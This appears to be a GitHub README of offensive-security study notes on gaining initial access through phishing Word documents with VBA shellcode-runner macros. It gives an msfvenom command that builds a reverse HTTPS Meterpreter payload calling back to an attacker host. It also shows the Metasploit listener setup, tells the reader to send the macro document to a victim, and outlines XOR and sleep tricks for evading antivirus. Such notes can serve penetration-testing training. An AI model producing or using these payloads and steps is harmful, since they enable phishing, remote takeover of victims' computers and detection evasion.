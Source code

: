 # Initial Access via Phishing

This is for Microsoft Office Word. We assume we are using meterpreter to catch the shell and we will be generating payloads according to the Windows Office version present on the victim. **Generally x86 for Office 2016 and x64 for Office 2021/365**

**Important thing to note that if you gain a shell via doc phishing, you are likely operating in a x86 process. If you need to bypass UAC through fodhelper, you need to find a way to upgrade to a 64-bit process (via migration or popping another shell)**

We start with the simplest payload which is to create a direct VBA shellcode runner with no obfuscation and then escalate accordingly with obfuscation, powershell and C# usage.

[Round 1: The Simple Direct VBA Shellcode Runner]()



# Round 1: The Simple Direct VBA Shellcode Runner
**Traits**
- As simple as it gets. All VBA with help from Win32APIs
- Unlikely to evade AV
- Dies the moment the victim closes Word. So you need to migrate to another process quick or you have some pretexting magic to keep the victim on the Word document


The malicious payload generated as such:

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.XX.XX LPORT=443 EXITFUNC=thread -f vbapplication
```

Open Listener
```bash
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > set EXITFUNC thread
EXITFUNC => thread

```

Slot the below into a macro in a .doc file, and send it to the victim who hopefully will be dumb enough to open and enable macro and stare at the document in disbelief while your shellcode runs.

Remember to change whatever that is in the buf variable to the shellcode generated by msfvenom!

![Simple VBA Shellcode Runner here](SimpleDirectVBARunner.vba)

# Round 2: The Obfuscated Direct VBA Shellcode Runner

- With Sleep Function to dodge Heuristics detection
- With single byte XOR encryption of shellcode
- Need to XOR your shellcode with the ![XOR_Helper](..\XOR_Encoder_Helper\xor_encoder.cs) courtesy of https://github.com/chvancooten/OSEP-Code-Snippets/blob/main/XOR%20Shellcode%20Encoder/Program.cs

